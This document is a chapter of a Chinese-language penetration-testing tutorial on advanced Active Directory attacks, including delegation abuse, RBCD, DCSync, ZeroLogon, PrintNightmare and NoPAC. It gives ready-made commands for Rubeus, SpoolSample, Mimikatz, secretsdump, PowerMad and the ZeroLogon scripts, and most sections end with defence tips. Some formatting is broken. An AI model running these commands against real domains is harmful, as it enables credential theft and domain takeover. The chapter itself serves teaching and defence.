







# 第50章 域渗透进阶

> **难度等级：🔴 特级**
>
> **预计学习时间：200分钟**
>
> **本章看点：委派攻击、ACL攻击、DCSync、域控漏洞利用（ZeroLogon/PrintNightmare/NoPAC）、域信任攻击、钻石票据、S4U2Self/S4U2Proxy、5个实战案例**

::: tip 说明
上一章我们学习了域渗透基础，
包括AD基础、Kerberos认证、
Kerberoast、AS-REP Roasting、
白银票据、黄金票据等。

这一章我们继续深入，
学习域渗透的进阶技术，
包括委派攻击、ACL攻击、
DCSync、域控漏洞利用等等。

这些技术更高级，
也更有威力，
当然理解起来也更难一些。
大家耐心学，
把原理搞懂了，
用起来就得心应手了。

准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
域渗透的基础部分我们已经学完了，
这一章我们来学习进阶内容。

可能有人可能会问：
"学了基础还不够吗？
为什么还要学进阶？"

因为实际的企业环境中，
很多时候基础攻击可能用不了，
或者说没那么容易成功。
比如：
- 服务账号密码都很强，Kerberoast破解不出来
- 预认证都开着，AS-REP Roasting没用
- 域管理员很小心，很少登录普通机器
- 各种防护越来越完善...

这时候就需要更高级的技术，
比如：
- 利用委派关系
- 利用ACL权限
- 利用域控漏洞
- 利用信任关系
- 等等...

这些进阶技术往往能
出其不意，
在看似安全的环境中
找到突破口。

这一章内容比较多，
也比较难，
建议大家配合实验环境
边学边练，
这样理解会更深刻。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解非约束委派攻击原理和利用
- [x] 理解约束委派攻击原理和利用
- [x] 理解基于资源的约束委派
- [x] 掌握DCSync攻击
- [x] 了解常见域控漏洞（ZeroLogon、PrintNightmare、NoPAC）
- [x] 理解ACL攻击
- [x] 了解域信任攻击
- [x] 了解钻石票据
- [x] 建立域渗透的完整知识体系

---

## 🔑 委派攻击基础

### 1.1 什么是委派？

委派（Delegation），
简单说就是：
允许某个服务账号
"代替用户"去访问其他服务。

**举个例子：**
你登录了一个Web应用，
这个Web应用需要
从数据库里
读取你的个人信息。
这时候Web服务
就需要"代替你"
去访问数据库服务。

这就是委派。

**为什么需要委派？**
因为在Kerberos认证中，
用户自己访问服务是有票据的，
但服务要替用户访问另一个服务，
它没有用户的票据啊？
所以就需要委派机制，
让服务可以代表用户去申请票据。

> 💡 **深入理解：委派攻击为什么这么猛？——"借刀杀人"的艺术**
>
> 委派（Delegation）是微软为了解决一个现实需求设计的机制：
> 用户登录一个多层应用（比如Web→数据库），
> Web服务需要"替"用户去数据库查东西。
>
> 但微软在实现这个机制时，创造了三个递进的安全问题：
>
> **非约束委派 = 给服务账号"无限授权"：**
> ```
> 用户 → 登录 Web服务（WebSvc）→ WebSvc拿到用户的TGT！
>   然后 WebSvc 可以拿着这个 TGT 
>   以用户的身份去访问**任何**其他服务
>
> 攻击者思路：如果我控制了WebSvc这台机器，
>   诱导域管理员来访问WebSvc（比如用PrinterBug）
>   → WebSvc拿到了域管理员的TGT
>   → 攻击者就能冒充域管理员了！
> ```
>
> **约束委派 = 限制范围，但仍有漏洞：**
> ```
> WebSvc 只能代表用户去访问"配置好的"几个SPN
> 但……如果WebSvc能配置到域控的CIFS服务呢？
> 那我就能以任意用户身份访问域控的文件共享！
> ```
>
> **RBCD（基于资源的约束委派）= 换个方向限制：**
> ```
> 不是"A可以委派到B"，而是"B允许A委派到我这里"
> B（资源方）设置 msDS-AllowedToActOnBehalfOfOtherIdentity 属性
> 如果攻击者对B有写权限 → 可以把攻击者控制的账号加进去
> → 攻击者就能以任意身份访问B！
> ```
>
> 三种委派就像一个越来越精细但仍然有漏洞的授权体系。
> 攻击者利用的永远不是代码里的bug，
> 而是**权限配置中的疏忽**：
> - 非约束委派配置了 → 诱导管理员来访问 → 偷TGT
> - 约束委派配置到敏感服务 → 冒充管理员访问
> - 对目标有写权限 → RBCD自授权
>
> **这就是委派攻击的本质：利用微软为"便捷"设计的机制，
> 在权限关系中找"借用他人身份"的路径。**

### 1.2 委派的类型

**1. **非约束委派（Unconstrained Delegation）**
   也叫无约束委派。
   配置了非约束委派的服务，
   可以代表用户访问**任何**服务。
   （权限很大，也很危险）

**2. **约束委派（Constrained Delegation）**
   配置了约束委派的服务，
   只能代表用户访问**指定的**几个服务。
   （相对安全一些）

**3. **基于资源的约束委派（Resource-Based Constrained Delegation, RBCD）**
   不是服务A配置可以委派到服务B，
   而是服务B配置允许谁可以委派到它。
   （控制权在资源方）

**图50-1 三种委派类型对比图**



### 1.3 怎么找配置了委派的账户？

**用PowerView：**
```powershell
# 查找配置了非约束委派的用户
Get-NetUser -Unconstrained -Delegation

# 查找配置了非约束委派的计算机
Get-NetComputer -Unconstrained

# 查找配置了约束委派的用户
Get-DomainUser -TrustedToAuth

# 查找配置了约束委派的计算机
Get-DomainComputer -TrustedToAuth
```

**用BloodHound：**
直接搜`Find Principals with Constrained Delegation
或者`Find Workstations where Domain Users can RDP`
之类的查询。

**用ADSIEdit或原生命令：**
```cmd
:: 也可以用LDAP查询
```

---

## ⚠️ 非约束委派攻击

### 2.1 非约束委派原理

非约束委派（Unconstrained Delegation），
也叫无约束委派，
是最危险的一种委派。

**原理：**
如果一个服务账户（或计算机账户）
配置了非约束委派，
那么当有用户（比如域管理员）
访问这个服务时，
服务会拿到用户的TGT，
然后服务就可以用这个TGT
以用户的身份访问**任何**服务。

**为什么危险？**
因为如果我们能控制
配置了非约束委派的机器，
然后诱导高权限用户访问这个服务，
我们就能拿到高权限用户的TGT，
然后就可以横着走了。

更危险的点：
- 域控默认就是非约束委派？不对，域控本身不是，但很多服务账号可能配置了。
- 等等，域控制器的计算机账户
  默认配置了非约束委派吗？
  其实不是默认没有，但是...
  （域控上有个东西叫krbtgt...

### 2.2 非约束委派攻击流程

**前提条件：**
1. 你控制了一台配置了非约束委派的机器
   （用户或计算机账户）
2. 有高权限用户访问了这台机器的某个服务

**攻击流程：**

**第一步：找到配置了非约束委派的机器**
```powershell
Get-NetComputer -Unconstrained | select name
```

**第二步：控制这台机器**
通过各种方法拿到这台机器的控制权。

**第三步：等待高权限用户访问**
可以被动等待，
或者主动诱导。

**第四步：导出用户的TGT**
用户访问后，
TGT会存在内存里，
我们可以用Mimikatz或Rubeus导出。

```
sekurlsa::tickets /export
```
或者用Rubeus：
```cmd
Rubeus.exe triage
Rubeus.exe dump /service:krbtgt
```

**第五步：Pass-the-Ticket**
导入TGT，
然后就可以用用户的身份
访问各种服务了。

**图50-2 非约束委派 + Printer Bug 攻击流程图**



### 2.3 Printer Bug / SpoolSample

问题是：
怎么让高权限用户
主动来访问我们控制的机器呢？

答案是：
利用"打印机bug"（Printer Bug），
也叫SpoolSample。

**原理：**
Windows的打印服务（Spooler）
有一个功能，
可以让一台机器
通知另一台机器
"有新的打印任务了"。
当收到通知时，
目标机器会主动
用自己的身份（计算机账户）
去连接通知它的机器。

**利用方法：**
如果域控开启了打印服务，
我们可以让域控
主动来连接我们控制的
配置了非约束委派的机器。
这样我们就能拿到
域控计算机账户的TGT。

有了域控计算机账户的TGT，
我们就可以DCSync，
导出域内所有Hash了！

**工具：**
- **SpoolSample.exe** — 触发打印机bug
- **Rubeus** — 监控和导出票据

**攻击步骤：**

1. 在我们控制的机器上，
   用Rubeus监控票据：
```cmd
Rubeus.exe monitor /interval:1 /filter:dc01$
```

2. 在另一台机器上运行SpoolSample，
   让域控来连接我们的机器：
```cmd
SpoolSample.exe dc01.corp.com ourmachine.corp.com
```

3. 域控会主动连接过来，
   Rubeus会抓到域控计算机账户的TGT。

4. 导入这个TGT，
   然后就可以DCSync了。

**这就是非约束委派 + 打印机bug
拿下域控的经典攻击路径。

### 2.4 防御方法

1. 尽量不要用非约束委派
2. 高权限用户不要随便访问不可信的服务
3. 禁用打印服务（如果不需要的话）
4. 监控异常的TGT请求
5. 开启保护用户（Protected Users）组

---

## 🔒 约束委派攻击

### 3.1 约束委派原理

约束委派（Constrained Delegation），
就是限制了服务
只能代表用户
访问哪些服务。

比如：
Web服务只能委派到
数据库服务，
不能委派到其他服务。

相比非约束委派，
约束委派安全多了，
但也不是绝对安全。

### 3.2 S4U2Self 和 S4U2Proxy

约束委派基于两个扩展：
**S4U2Self** 和 **S4U2Proxy**。

**S4U2Self（Service-for-User-to-Self）：**
服务可以为任意用户
向KDC申请一个
访问自己的服务票据。
（相当于"代表用户访问自己"）

**S4U2Proxy（Service-for-User-to-Proxy）：**
服务可以用用户的TGT
（或者S4U2Self得到的票据）
向KDC申请访问
另一个服务的票据。
（相当于"代表用户访问其他服务"）

约束委派的流程大致是这样：
1. 服务A用S4U2Self为用户申请访问A的ST
2. 服务A用这个ST，通过S4U2Proxy
   申请访问服务B的ST
3. 服务A用服务B的ST去访问B

**图50-3 约束委派 S4U2Self / S4U2Proxy 流程图**



### 3.3 约束委派攻击

**前提条件：**
1. 你控制了一个配置了约束委派的账户
   （用户或计算机）
2. 知道这个账户的密码Hash
3. 知道它可以委派到哪些服务

**攻击原理：**
因为我们有这个账户的Hash，
我们可以用S4U2Self
为任意用户（比如administrator）
申请一个访问自己的票据，
然后用S4U2Proxy
申请访问目标服务的票据。

这样我们就能
以任意用户的身份
访问目标服务！

**攻击步骤：**

**第一步：找到约束委派的账户**
```powershell
Get-DomainUser -TrustedToAuth | select name,msds-allowedtodelegateto
```

**第二步：拿到这个账户的Hash**
通过各种方法拿到密码或Hash。

**第三步：用Rubeus请求票据**
```cmd
:: 语法
Rubeus.exe s4u /user:约束委派账户 /rc4:账户的Hash /domain:域名 /dc:域控IP /impersonateuser:要冒充的用户 /msdsspn:目标服务SPN /ptt
```

**示例：**
```cmd
Rubeus.exe s4u /user:websvc /rc4:websvc的Hash /domain:corp.com /dc:dc01 /impersonateuser:administrator /msdsspn:cifs/filesrv01.corp.com /ptt
```

这样就能得到
administrator访问filesrv01的CIFS服务票据，
然后就可以访问文件共享了。

**注意：**
- 只能访问配置了的服务
  （msds-allowedtodelegateto里的）
- 可以冒充任意用户

### 3.4 约束委派的利用场景

1. **如果约束委派到CIFS服务**
   → 可以访问文件共享、PsExec等

2. **如果约束委派到HTTP服务**
   → 可以访问Web、WinRM等

3. **如果约束委派到LDAP服务**
   → 可以操作AD，甚至DCSync

4. **如果约束委派的是域控的某个服务**
   → 可能可以直接拿域控

约束委派的威力
取决于能委派到哪些服务，
以及那些服务的权限。

### 3.5 防御方法

1. 谨慎配置约束委派，只给必要的服务
2. 服务账号用强密码
3. 监控异常的S4U请求
4. 敏感账号加入Protected Users组

---

## 🎭 基于资源的约束委派（RBCD）

### 4.1 什么是RBCD？

基于资源的约束委派
（Resource-Based Constrained Delegation，RBCD），
和普通的约束委派正好反过来：

- **普通约束委派**：A配置可以委派到B
  （A说"我可以代表用户去B那里")
- **RBCD**：B配置允许A委派到B
  （B说"允许A代表用户来我这"）

控制权在"资源方"（B），
而不是"委派方"（A）。

**为什么会有RBCD？
因为有些场景下，
资源方想自己控制谁能委派到它，
而不是让服务方来配置。

### 4.2 RBCD攻击原理

**前提条件：**
你对某个计算机账户
有写权限（比如创建计算机账户的权限，
或者修改某个计算机账户的
msDS-AllowedToActOnBehalfOfOtherIdentity属性的权限）。

**攻击原理：**
1. 我们创建（或者控制）一个计算机账户
2. 我们修改目标计算机的RBCD属性，
   允许我们控制的计算机账户
   可以委派到目标计算机
3. 然后我们就可以用
   约束委派的方法（S4U2Self + S4U2Proxy）
   以任意用户身份访问目标计算机

**简单说：**
我们能改目标机器的"允许谁委派到我"
这个属性，
把我们控制的机器加进去，
然后就能用约束委派那套
来攻击目标机器了。

### 4.3 RBCD攻击流程

**前提：**
- 我们有权限在域内创建计算机账户
  （普通用户默认可以创建10个）
- 我们对目标计算机有
  写msDS-AllowedToActOnBehalfOfOtherIdentity的权限

**步骤：**

**第一步：创建一个计算机账户**
```powershell
# 用PowerMad
New-MachineAccount -MachineAccount FAKE01$ -Password $(ConvertTo-SecureString 'Pass123!' -AsPlainText -Force)
```

或者用其他工具创建。

**第二步：修改目标计算机的RBCD属性**
```powershell
# 用PowerView
Set-DomainRBCD -Identity 目标机器$ -PrincipalIdentity FAKE01$ -Verbose
```

**第三步：用Rubeus做S4U攻击**
```cmd
Rubeus.exe s4u /user:FAKE01$ /rc4:FAKE01的NTLMHash /domain:corp.com /dc:dc01 /impersonateuser:administrator /msdsspn:cifs/target.corp.com /ptt
```

**第四步：访问目标**
```cmd
dir \\target.corp.com\c$
```
成功！

### 4.4 什么时候会遇到RBCD？

1. 你对某台机器有GenericAll或GenericWrite权限
2. 你有创建计算机账户的权限
3. 某些模板/机器账户创建者对机器有特殊权限

RBCD是一种很实用的攻击手法，
在BloodHound里经常能看到路径。

---

## 💾 DCSync 攻击

### 5.1 什么是DCSync？

DCSync，
顾名思义，
就是"域控同步"。

正常情况下，
域控之间会同步数据，
比如用户的密码Hash什么的。

DCSync攻击就是：
**模拟域控，
向另一个域控
请求同步数据，
从而拿到域内所有用户的Hash。

**DCSync需要什么权限？**
需要有以下几个权限：
- DS-Replication-Get-Changes
- DS-Replication-Get-Changes-All
- DS-Replication-Get-Changes-In-Filtered-Set

简单说就是
"复制目录更改"的权限。

默认情况下，
域管理员、企业管理员、
域控制器等组有这个权限。
但如果其他用户也有，
那也可以DCSync。

### 5.2 DCSync攻击原理

正常的域控同步过程：
1. 源域控向目标域控发送同步请求
2. 目标域控验证权限
3. 验证通过，返回数据（包括密码Hash）

攻击者如果有复制权限，
就可以模拟这个过程，
拿到所有用户的Hash。

**图50-4 DCSync 攻击原理图**



### 5.3 DCSync攻击工具

**Mimikatz：**
```
# DCSync导出指定用户的Hash
lsadump::dcsync /domain:域名 /user:用户名

# 示例：导出krbtgt的Hash
lsadump::dcsync /domain:corp.com /user:krbtgt

# 导出所有用户（可能数据量很大
lsadump::dcsync /domain:corp.com /all
```

**Impacket secretsdump.py：**
```bash
# DCSync导出所有Hash
secretsdump.py 域名/用户名:密码@域控IP -just-dc

# 只导出指定用户
secretsdump.py 域名/用户名:密码@域控IP -just-dc-user krbtgt

# 用Hash
secretsdump.py 域名/用户名@域控IP -hashes :NTLM_Hash -just-dc
```

**示例：**
```bash
secretsdump.py corp.com/administrator:Pass123!@dc01.corp.com -just-dc
```

### 5.4 DCSync的利用价值

1. **拿到krbtgt的Hash → 做黄金票据
2. **拿到域管理员的Hash → 登录域控
3. **拿到所有用户的Hash → 离线破解、密码喷洒
4. **权限维持 → 即使管理员改了密码，
   只要你有DCSync权限，
   随时可以重新拿Hash

DCSync是非常强大的攻击，
拿到了DCSync权限
基本等于拿到了整个域。

### 5.5 怎么检测DCSync权限？

**用BloodHound：**
查询有DCSync权限的用户。

**用PowerView：**
```powershell
# 查找有复制权限的用户
Get-ObjectAcl -DistinguishedName "dc=corp,dc=com" -ResolveGUIDs | ? { $_.ObjectType -match "replication" }
```

**防御：
- 监控谁有DCSync权限
- 定期检查异常的复制权限
- 监控域控之间的同步异常

---

## 🏰 常见域控漏洞

### 6.1 ZeroLogon（CVE-2020-1472）

**漏洞简介：
ZeroLogon（零登录），
是2020年爆出的一个严重漏洞，
影响Windows Netlogon协议。

**漏洞原理：**
Netlogon协议中使用了AES-CFB8加密，
由于实现有问题，
攻击者可以通过发送全零的IV，
导致可以将域控计算机账户的密码重置为空。

**影响：**
- 攻击者无需任何凭据
- 可以直接重置域控计算机账户的密码
- 然后用空密码DCSync，导出所有Hash
- 基本上直接拿域控

**危害等级：**
非常严重，CVSS评分10分满分。

**利用工具：**
- **zerologon** — 检测和利用脚本
- **impacket的secretsdump.py** — 配合利用

**利用步骤：**

1. **检测漏洞：**
```bash
python3 zerologon_tester.py dc01 10.0.0.10
```

2. **重置密码：**
```bash
python3 cve-2020-1472-exploit.py dc01 10.0.0.10
```

3. **DCSync导出Hash：**
```bash
secretsdump.py corp.com/dc01$@10.0.0.10 -no-pass
```
（用空密码的计算机账户）

4. **恢复密码（一定要恢复，不然会出问题）：**
   利用完之后，
   要把密码恢复回去，
   不然域控会出问题。

**防御：**
打补丁！
微软已经出了补丁，
一定要及时更新。

### 6.2 PrintNightmare（CVE-2021-1675 / CVE-2021-34527）

**漏洞简介：**
打印池噩梦，
Windows打印后台处理程序的漏洞，
可以远程代码执行，
也可以本地提权。

**影响：**
- 远程代码执行（需要凭据）
- 本地提权
- 影响范围很广，几乎所有Windows都受影响

**域环境下的利用：**
如果域控开了打印服务，
可以用PrintNightmare直接打域控，
拿到System权限。

**利用工具：**
- **CVE-2021-1675 / 各种PoC
- **SharpPrintNightmare** — C#版本
- **很多很多...

**利用步骤（远程）：**
1. 有一个域用户权限
2. 上传恶意DLL
3. 触发漏洞
4. 执行代码，拿到System

**本地提权：**
在已经有低权限Shell，
用PrintNightmare提权到System。

**防御：**
- 打补丁
- 禁用打印后台处理程序（如果不需要）
- 限制打印服务配置

### 6.3 NoPAC（CVE-2021-42278 + CVE-2021-42287）

**漏洞简介：**
NoPAC（No PAC？），
是两个漏洞的组合：
- CVE-2021-42278 — 计算机账户名称欺骗
- CVE-2021-42287 — PAC缺陷

**漏洞原理：**
1. 创建一个计算机账户，
   名字和域控一样（不加$）
2. 然后利用票据请求的时候，
   KDC会去找名字加$的账户，
   导致权限提升。

简单说：
可以从普通域用户
直接提升到域管理员权限。

**影响：**
- 普通域用户 → 域管理员
- 危害极大

**利用工具：**
- **noPac** — 利用工具
- **Rubeus** — 配合使用

**利用步骤：**
1. 创建计算机账户
2. 修改属性
3. 请求TGT
4. 利用漏洞拿到高权限票据
5. DCSync

**防御：**
打补丁，
微软出了相应的安全更新。

### 6.4 其他域控漏洞

**1. MS14-068（KB3011780）**
- 2014年的漏洞，
  普通用户可以伪造PAC，
  提升到域管理员。
- 很老了，
  但老环境可能还存在。

**2. EternalBlue（MS17-010）**
- 永恒之蓝，
  如果域控没打补丁，
  直接打过去拿System。

**3. PetitPotam**
- 另一种中继攻击，
  可以结合AD CS攻击。

**4. AD CS相关漏洞**
- AD CS（证书服务）的各种漏洞，
  比如ESC1、ESC2...ESC8等等。
  （如果环境有AD CS的话，攻击面很大）

域控漏洞很多，
时不时就会爆出新的。
作为红队，
要关注最新的漏洞动态。

**图50-5 常见域控漏洞影响与利用对比图**



---

## 🔐 ACL 攻击

### 7.1 什么是ACL？

ACL（Access Control List）
访问控制列表，
简单说就是：
"谁对什么对象
有什么权限"。

AD里每个对象
（用户、组、计算机、OU...）
都有ACL，
定义了谁能对它做什么。

**常见的权限（ACE：**
- GenericAll — 完全控制
- GenericWrite — 写权限
- WriteDACL — 修改ACL
- AddMember — 添加成员
- ForceChangePassword — 强制改密码
- ResetPassword — 重置密码
- AddSelf — 添加自己
- ...等等

这些权限都可能被利用，
进行权限提升。

### 7.2 常见的ACL攻击路径

**1. GenericAll / GenericWrite（对用户）**
如果你对某个用户有GenericAll
或者有重置密码的权限，
那你可以直接改他的密码！
